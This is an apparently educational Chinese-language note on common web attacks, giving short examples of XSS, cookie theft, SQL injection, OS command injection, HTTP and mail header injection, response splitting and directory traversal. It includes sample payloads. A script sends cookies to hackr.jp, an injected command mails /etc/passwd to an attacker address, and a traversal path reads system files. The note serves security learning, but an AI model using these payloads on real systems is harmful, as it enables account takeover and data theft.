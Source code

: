 # Web 攻击

## 原因

- HTTP 不具备安全功能
- 在客户端可以篡改请求

## 攻击方式

### 跨站脚本攻击 XSS

通过提交的信息中带入 js 脚本，执行操作或者引入三方 js 。

正常请求：<br />
http://example.jp/login?ID="haha"<br />
正常显示：<br />
&lt;input type="text" name="ID" value="yama" />

攻击请求：<br />
http://example.jp/login?ID=">&lt;script>var+f=document.getElementById("login");&lt;/script>"<br />
攻击显示：<br />
&lt;input type="text" name="ID" value="">&lt;script>var+f=document.getElementById("login");&lt;/script>

### 对用户 Cookie 的窃取攻击

恶意三方脚本执行。

如下：<br />
var content = escape(document.cookie);<br />document.write("&lt;img src=http://hackr.jp/?");<br />document.write(content);<br />document.write(">");<br />

### SQL 注入攻击

正常请求：<br />
http://example.jp/search?q=haha<br />
正常执行：<br />
SELECT * FROM bookTbl WHERE author = 'haha' and flag = 1;

攻击请求：<br />
http://example.jp/search?q=haha‘ --<br />
攻击显示：<br />
SELECT * FROM bookTbl WHERE author = 'haha' --’ and flag = 1;<br />
flag = 1 的条件被忽略

### OS 命令注入攻击

核心代码：<br />
my $adr = $q->param('mailaddress');<br />open(MAIL, "| /usr/sbin/sendmail $adr");<br />print MAIL "From: info@example.com\n";<br />

当传入 mailaddress 参数为 ; cat /etc/passwd | mail hack@example.jp

会执行下面的语句：<br />
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp<br />
将含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。

### HTTP 首部注入攻击

http 头部信息：<br />
Location: http://www.example.com/a.cgi?q=101%0D%0ASet-Cookie:+SID=123456789

%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

### HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

如下：<br />
Set-Cookie: UID=（%0D%0A ：换行符）<br />（%0D%0A ：换行符）<br />&lt;HTML>&lt;HEAD>&lt;TITLE>之后，想要显示的网页内容 &lt;!--（原来页面对应的首部字利

### 邮件首部注入攻击

bob@hackr.jp%0D%0ABcc: user@example.com

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

bob@hackr.jp%0D%0A%0D%0ATest Message

使用两个连续的换行符就有可能篡改邮件文本内容并发送。

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。

### 目录遍历攻击

http://example.com/read.php?log=../../etc/passwd

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。